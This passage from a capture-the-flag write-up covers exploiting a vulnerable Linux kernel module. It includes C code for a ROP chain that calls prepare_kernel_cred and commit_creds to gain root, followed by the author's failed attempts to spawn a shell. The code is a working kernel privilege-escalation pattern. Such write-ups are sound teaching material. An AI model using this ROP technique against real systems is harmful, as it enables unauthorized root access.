 We can now compute the addresses of those functions, but we need gadgets, and there are not so many gadgets inside the kernel module. To get more gadgets I extracted the vmlinux from the bzImage with this [tool](https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux). Then we can launch ROPgadet on the vmlinux and get a lot of them. Here is the beginning of my ropchain:

{{< codeblock lang="c"  >}}
int main() {
 
    int fd, nread;
    char buf[BUF_SIZE];
    struct linux_dirent *d;
    char file_name[138] = "/home/ctf/ecsc_flag_AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQQRRRRSSSSTTTTUUUUVVVVWWWWWXXXXYYYY";
    char *p;
    void *payload;
    unsigned long  kernel_base, *fake_stack;

    kernel_base = get_kernel_sym("startup_64"); // get the kernel base address to compute real gadget address
    prepare_kernel_cred = (prepare_kernel_cred_t)get_kernel_sym("prepare_kernel_cred");
    commit_creds = (commit_creds_t)get_kernel_sym("commit_creds");

    payload = malloc(0x100);
    memset(payload, 0x00, 0x100);

    fake_stack = (unsigned long *)(payload);
    *fake_stack ++= kernel_base + 0x2d028f;           // xor rax, rax

    *fake_stack ++= kernel_base + 0x1cc22e;           //pop rcx; ret
    *fake_stack ++= prepare_kernel_cred;
    
    *fake_stack ++= kernel_base + 0xa3247;           //mov rdi, rax ; call rcx

    *fake_stack ++= 0x4343434343434343;
    
    *fake_stack ++= kernel_base + 0x1cc22e;          //pop rcx; ret
    *fake_stack ++= commit_creds;
    
    *fake_stack ++= kernel_base + 0xa3247;          // mov rdi, rax ; call rcx

    [...]
{{< /codeblock >}}

After those gadget are executed, we will get root privileges. My naive idea was just to go back to a userland function and execute system("/bin/sh") but it didn't work as expected. I triggered segfault and I could only execute one printf then it would failed with a segfault. 

I successfully executed a printf which means that I still can execute code but not for long. I tried to execute a custom minimal shellcode to call execve('/bin/sh') but without success. I was probably messing up with the kernel stack so I either had to restore it or find another solution. I tried in vain to restore it and I also tried to make a stack pivot but without sucess.

I also tried to execute a call to exit after the ropchain, it worked but printf and exit are pretty useless in our case. But something is happening, we can still make at least one syscall, what can we do with one sycall ? 

# One syscall to rule them all
